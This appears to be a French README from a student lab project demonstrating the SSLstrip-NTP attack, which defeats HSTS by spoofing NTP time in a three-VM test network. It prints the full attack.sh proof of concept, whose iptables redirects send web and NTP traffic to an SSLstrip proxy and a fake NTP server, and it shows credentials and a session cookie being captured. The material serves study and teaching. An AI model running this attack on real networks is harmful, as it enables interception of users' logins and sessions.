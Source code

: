 # Attaque SSLstrip-NTP

Cette amélioration de l'attaque SSLstrip originale a été présentée pour la première fois par Jose Selvi à la [Blackhat Europe de 2014](https://www.blackhat.com/docs/eu-14/materials/eu-14-Selvi-Bypassing-HTTP-Strict-Transport-Security-wp.pdf). Celle-ci permet de contourner la sécurité offerte par HSTS (HTTP Strict Transport Security), dans le cas où l'attaquant est capable de modifier le trafic NTP entre le client et le serveur NTP.

L'attaque SSLstrip originale n'est en effet plus possible lorsque l'on essaye de "striper" les URL d'une page web d'un domaine qui a été protégé ultérieurement par HTTP Strict Transport Security. Le mécanisme HSTS va obliger le client à se connecter à l'URL que l'on cherche à striper en HTTPS pendant un certain laps de temps, défini par le serveur.

Le protocole NTP (Network Time Protocol) permet de synchroniser l'horloge d'un équipement informatique avec un serveur. Il s'agit d'un protocole stateless non-sécurisé basé sur UDP. L'attaque présentée par Jose Selvi consiste à usurper les requêtes NTP pour renvoyer une date éronnée au client, et ainsi faire expirer les entrées HSTS. Pour réaliser cela, l'auteur se base sur un outil Python appellé [Delorean](https://github.com/myusuf3/delorean), qui se comporte comme un serveur NTP et pour lequel on peut définir la date de réponse.

Une fois que l'horloge du client a été compromise et le HSTS du domaine expiré, nous pouvons utiliser l'attaque SSLstrip originale afin de striper les URL des pages web, même pour les domaines censés être protégés par HSTS.

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la [topology](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/topology) des machines mise en place :


```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Toutes les configurations initiales des machines se trouvent dans le fichier __"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine. Le navigateur firefox est utilisé pour la démonstration.

Au lancement de la machine, il faut ajouter le certificat de l'autorité de certification dans firefox, grâce à l'outil certutil. De plus, un client NTP est lancé au démarrage de la machine et configuré pour effectuer ses requêtes vers opeth.

Se reporter au fichier [start.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/grave/start.sh) pour plus de détails.

## Machine "opeth" (147.210.12.1)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl grâces aux scripts présents dans le dossier [CA](https://github.com/t00sh/mastercsi-ter/blob/master/CA). D'abord on crée une autorité de certification :

```
# Crée la clef root
openssl genrsa -out root-ca.key 4096

# Certificat auto-signé
openssl req -x509 -new -nodes -key root-ca.key -sha256 -days 512 -out root-ca.pem
```

Puis on peut créer un certificat pour le serveur opeth, signé avec la clef de l'autorité de certification que l'on vient de créer :

```
# Crée la clef privée
openssl genrsa -out cert.key 4096

# Crée la requête
openssl req -new -key cert.key -out cert.csr

# Signe le certificat avec la clef de la CA
openssl x509 -req -in cert.csr -CA root-ca.pem -CAkey root-ca.key -CAreateserial -out cert.pem -days 365 -sha256
```

Le serveur héberge deux sites :

  - le domaine [www.opeth.local](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/local/index.php) que l'on accéde en HTTP et présentant un formulaire de login.

  - le domaine [www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php) que l'on accéde en HTTPS et protégé par HSTS.

De plus, opeth joue le rôle de serveur NTP légitime, grâce au logiciel ntpd lancé au démarrage de la VM.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier [/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/attack.sh). Cette VM est configurée pour forwarder les paquets entre opeth et grave.

Si elle reçoit une requête NTP sur la chaîne iptables PREROUTING, alors elle redirige ce paquet vers [delorean](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/delorean.py) pour l'attaque.

------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante (on aura récupéré au préalable le dépôt [qemunet](https://gitlab.inria.fr/qemunet/core)) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip-ntp
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave que tout se passe normalement et que la requête POST passe bien en HTTPS (immortal est donc incapable de voir les identifiants envoyés) :

![screen1](../medias/sslstrip-ntp/screen1.png?raw=true)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](../medias/sslstrip-ntp/screen2.png?raw=true)

Nous arrivons alors sur le domaine www.opeth.secure en HTTPS : immortal n'a pas pût voir nos échanges sur cette page sécurisée.

![screen3](../medias/sslstrip-ntp/screen3.png?raw=true)

## Etape 2 : lancement de l'attaque

Comme expliqué précédement, pour lancer l'attaque, il faut exécuter le fichier __[/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/immortal/attack.sh)__ depuis immortal. Voici son contenu :

```
#!/bin/sh

PROXY_PORT=4242
DELOREAN_PORT=4343

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT
iptables -t nat -A PREROUTING -p udp --destination-port 123 -j REDIRECT --to-port $DELOREAN_PORT

hsts_expire=$(curl -v https://www.opeth.secure --insecure 2>&1  | grep Strict | awk -F= '{print $2}' | awk -F\; '{print $1}')
hsts_expire=$(($hsts_expire / 60 + 1))

/mnt/host/delorean.py -p $DELOREAN_PORT -n -s ${hsts_expire}m &
/mnt/host/sslstrip-ntp.py $PROXY_PORT
```

On peut constater que les flux TCP à destination du port 80 (HTTP) sont redirigées vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes. Aussi, les requêtes NTP sont redirigées vers le serveur Delorean.

Nous pouvons maintenant lancer l'attaque depuis la machine immortal :

![screen4](../medias/sslstrip-ntp/screen4.png?raw=true)

## Etape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que le lien sensible [https://www.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php) est remplacé par [http://wwww.opeth.secure](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip-ntp/opeth/www/secure/index.php). La machine immortal est donc capable d'intercepter les échanges réalisés sur le domaine www.opeth.secure.

Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par un lien non sécurisé http:// :

![screen5](../medias/sslstrip-ntp/screen1.png?raw=true)

Nous constatons que nous arrivons sur le domaine www.opeth.secure en HTTP : notre navigation n'est pas sécurisée !

![screen6](../medias/sslstrip-ntp/screen2.png?raw=true)

La machine immortal a été capable de capturer non seulement les identifiants du formulaire, mais également le cookie de session :

![screen7](../medias/sslstrip-ntp/screen7.png?raw=true)
